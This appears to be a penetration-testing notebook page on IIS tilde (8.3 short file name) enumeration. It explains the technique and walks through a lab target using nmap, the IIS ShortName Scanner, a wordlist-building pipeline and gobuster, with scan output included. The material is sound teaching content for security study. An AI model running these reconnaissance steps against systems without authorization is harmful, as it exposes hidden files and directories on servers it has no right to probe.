 ```yaml
---
description: >-
  IIS tilde directory enumeration is a technique utilised to uncover hidden
  files, directories, and short file names on some versions of IIS web servers
---
```


# IIS Tilde Enumeration

* Windows generates short file name in 8.3 format when a file or folder is created on IIS server
* Contains 8 characters, . , and 3 characters for extesion.
* The tilde (`~`) character, followed by a sequence number, signifies a short file name in a URL.
* IIS tilde directory enumeration sends HTTP requests to the server with distinct character combinations to identify valid short file names.

The enumeration process starts by sending requests with various characters following the tilde:

```http
http://example.com/~a
http://example.com/~b
http://example.com/~c
...
```

Assume the server contains a hidden directory named SecretDocuments. When a request is sent to `http://example.com/~s`, the server replies with a `200 OK` status code, revealing a directory with a short name beginning with "s". The enumeration process continues by appending more characters:

```http
http://example.com/~se
http://example.com/~sf
http://example.com/~sg
...
```

For instance, if the short name `secre~1` is determined for the concealed directory SecretDocuments, files in that directory can be accessed by submitting requests such as:

```http
http://example.com/secre~1/somefile.txt
http://example.com/secre~1/anotherfile.docx
```

After obtaining the short names, those files can be directly accessed using the short names in the requests.

```http
http://example.com/secre~1/somefi~1.txt
```

The numbers following the tilde (`~`) assist the file system in differentiating between files that share similarities in their names, ensuring each file has a distinct 8.3 short file name.

* `somefi~1.txt` for `somefile.txt`
* `somefi~2.txt` for `somefile1.txt`

### Enumeration

```shell-session
nmap -p- -sV -sC --open 10.129.224.91

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-14 19:44 GMT
Nmap scan report for 10.129.224.91
Host is up (0.011s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds
```

IIS 7.5 is running on port 80. Executing a tilde enumeration attack on this version could be a viable option.

**Tilde Enumeration using IIS ShortName Scanner**

```shell-session
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Do you want to use proxy [Y=Yes, Anything Else=No]? 
# IIS Short Name (8.3) Scanner version 2023.0 - scan initiated 2023/03/23 15:06:57
Target: http://10.129.204.231/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/
|_ Extra information:
  |_ Number of sent requests: 553
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 3
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ CSASPX~1.CS??
    |_ TRANSF~1.ASP
```

**Generate Wordlist**

```shell-session
egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```

<table data-header-hidden><thead><tr><th width="138"></th><th></th></tr></thead><tbody><tr><td><strong>Command Part</strong></td><td><strong>Description</strong></td></tr><tr><td><code>egrep -r ^transf</code></td><td>search for lines containing a specific pattern in the input files. The <code>-r</code> flag indicates a recursive search through directories. The <code>^transf</code> pattern matches any line that starts with "transf". The output of this command will be lines that begin with "transf" along with their source file names.</td></tr><tr><td><code>|</code></td><td>The pipe symbol (<code>|</code>) is used to pass the output of the first command (<code>egrep</code>) to the second command (<code>sed</code>). In this case, the lines starting with "transf" and their file names will be the input for the <code>sed</code> command.</td></tr><tr><td><code>sed 's/^[^:]*://'</code></td><td>find-and-replace out of<code>egrep</code>. The expression tells <code>sed</code> to find any sequence of characters at the beginning of a line (<code>^</code>) up to the first colon (<code>:</code>), and replace them with nothing (removing the matched text). The result will be the lines starting with "transf" but without the file names and colons.</td></tr><tr><td><code>> /tmp/list.txt</code></td><td>The greater-than symbol (<code>></code>) is used to redirect the output of the entire command (i.e., the modified lines) to a new file named <code>/tmp/list.txt</code>.</td></tr></tbody></table>

**Gobuster Enumeration**

```shell-session
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```



![](<../../../.gitbook/assets/image (15).png>)



